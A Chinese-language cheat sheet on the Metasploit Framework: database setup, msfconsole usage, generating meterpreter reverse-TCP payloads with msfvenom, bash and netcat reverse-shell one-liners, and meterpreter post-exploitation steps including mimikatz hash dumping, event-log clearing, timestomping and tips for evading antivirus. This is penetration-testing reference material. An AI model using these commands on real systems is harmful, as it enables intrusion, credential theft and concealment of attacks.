 # Metasploit

该工具存在免费版本 Metasploit Framework 和付费版本 Metasploit Pro, 后者提供了许多实用的专业功能, 但是天价. 以下内容均以 Metasploit Framework(MSF) 为例.  

## 数据库

初次使用 MSF 时可以利用 [msfdb](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html) 对数据库进行自动初始化, 若自动初始化失败则进行[手动初始化](https://docs.rapid7.com/metasploit/managing-the-database/). 仅支持 [PostgreSQL](https://www.postgresql.org/) 数据库.  

```sh
# Arch/Manjaro
sudo pacman -S postgresql                      # 安装数据库
sudo systemctl enable --now postgresql.service # 启用数据库服务
sudo systemctl status postgresql.service       # 检查数据库服务状态

msfdb status # 检查数据库服务状态, 包括监听端口
msfdb init   # 初始化数据库
```

其中启动数据库服务和初始化数据库的步骤容易出现错误, 根据提示信息进行故障排除即可.  
启动 msfconsole 后可以通过 `db_status` 检查数据库连接状态.  

之后便可以使用数据库相关指令, 关键信息(如主机/服务/漏洞/战利品)会被记录到数据库中以便后续查询.  

## 快速入门

```sh
# 数据库/工作区
msf > workspace [name]             # 切换工作区
msf > workspace -a [name]          # 添加工作区
msf > db_nmap [...]                # 调用 nmap 进行扫描, 比将结果保存到当前工作区
msf > db_export -f [format] [file] # 将当前工作区中的数据以指定格式(通常是 xml)导出到文件中, 导出结果可能为空, 需要进行检查

# 查找/选择 module
msf > search [[type:]keyword] # 搜索 module
msf > use [id/module]         # 使用 module, module 的名称或 search 指令结果中的 id
msf > use [id/module]         # 显示 module 的详细信息.
msf > setg [option] [value]   # 设置默认选项, 避免切换 module 时重复填写不变的参数

# 使用 module
msf(module) > options                 # 显示当前 module 的选项
msf(module) > info                    # 显示当前 module 的详细信息
msf(module) > show [option]           # 显示选项的可用选项
msf(module) > set [option] [id/value] # 设置选项, 选项的值或 show 指令结果中的 id
msf(module) > check                   # 部分 exploit module 支持, 用于验证 RHOSTS 是否可以被利用
msf(module) > run                     # 执行 module

# 会话管理
msf > sessions         # 列出会话, -l
msf > sessions [id]    # 打开会话, -i
msf > sessions -u [id] # 将 shell 升级到 meterpreter

# 故障排除
msf > setg LogLevel 5          # 日志详细等级, 范围 1-5
cat ~/.msf6/logs/framework.log # 查看日志
msf > debug                    # 显示诊断信息, 在故障发生后使用
```

## 载荷

MSF 中的载荷(payload)共有以下三种:  

- Singles: 包含完整的功能, 不依赖 MSF, 因此不需要通过 exploit/multi/handler 来建立连接.
- Stagers: 小巧可靠, 用于建立连接并接收 Stages.
- Stages: 无大小限制, 包含高级功能.

在遇见 "载荷" 一词时应结合上下文推断具体含义.  
命名规则是 `<platform>/[arch]/<single>` 和 `<platform>/[arch]/<stage>/<stager>`, 比如 `windows/x64/meterpreter/reverse_tcp` 就代表 Windows 下使用 x64 指令集编写的使用 tcp 协议反向建立连接的 stager, 用于接收 meterpreter 这个 stage.  

## 生成载荷

使用 msfvenom(msfpayload 和 msfencode 的替代品) 来生成载荷, 详情请参考[官方教程](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).  
需要根据具体情况(包括漏洞利用方式, 架构, 系统, 环境, 通讯方式等)选择合适的载荷/编码器/格式等其他参数.  

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=[LHOST] LPORT=[LPORT] rc4password=[password] -f exe -o ~/payload.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp     LHOST=[LHOST] LPORT=[LPORT]                        -f exe -o ~/payload.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp       LHOST=[LHOST] LPORT=[LPORT]                        -f elf -o ~/payload

msfvenom -l payload # 查看载荷, 根据目标进行选择
msfvenom -l format  # 查看格式, 可以是可执行文件/脚本, 也可以只是用于源代码的 shellcode 代码片段
```

除了上传可执行文件到目标并执行, 也可以直接利用目标上的命令来获取 shell, 然后再将 shell 升级为 meterpreter.  

```sh
bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1
nc [LHOST] [LPORT] -e /bin/sh
```

选择 shell_reverse_tcp 作为载荷并建立连接.  

## [Meterpreter](https://github.com/rapid7/metasploit-payloads)

Meterpreter 是一种特殊的多功能载荷, 充分利用其功能可以使后渗透攻击变得十分方便.  
以下列举几个常用功能:  

```sh
# 权限提升
meterpreter > getsystem [...]   # 自动提权
meterpreter > steal_token [pid] # 通过窃取拥有更高权限的进程的令牌提权

# 获取密码
meterpreter > load mimikatz                          # 载入 mimikatz
meterpreter > run post/windows/gather/smart_hashdump # 导出账户密码 hash

# 清除痕迹
meterpreter > clearev         # 清除应用/系统/安全日志
meterpreter > timestomp [...] # 编辑文件属性(包括创建/最后修改时间)

# 使用 module
meterpreter > search type:post  # 列出 post module
meterpreter > run [module]      # 执行 module, 主要位于 "post/[system]" 下
```

### 故障排除

- Meterpreter 会话意外关闭, 返回原因 Died / exploit/multi/handler 无法和目标建立连接 / 目标上的接收器发生段错误, 可能是又以下几个原因导致的:  

  - MSF 和 Meterpreter 的版本不兼容: 解决方法是确保版本相同.
  - 载荷不匹配: 该问题会导致目标上的 Stagers 发生段错误, exploit/multi/handler 中设置的载荷(类型/系统/架构)与目标上期待的不一致, 解决方法是确保载荷一致.
  - 被安全软件终止: 该问题会导致会话成功建立却意外关闭, 可能的解决方法有:  

    1. 转移进程: 通过 `set AutoRunScript "migrate -n explorer.exe"` 在链接建立后立即转移到其他进程, 以规避安全软件的检测.
    2. 混淆: 生成载荷时使用编码器混淆并加密代码, 以规避安全软件对内存中代码的特征检测. 或通过 `set EnableStageEncoding true` 对发送的 stage 进行编码, 以规避安全软件对流量特征的识别.

- msfdb 初始化数据库失败. 可以使用下面的源安装 `msfdb-blackarch`:  

  ```
  [blackarch]
  SigLevel = Optional TrustAll
  Server = https://mirrors.ustc.edu.cn/blackarch/$repo/os/$arch
  ```

## 拓展

- [Metasploit Documentation](https://docs.metasploit.com/)
- <https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/>
- [mimikatz](https://github.com/ParrotSec/mimikatz)

## 参考

- <https://www.offensive-security.com/metasploit-unleashed/payloads/>
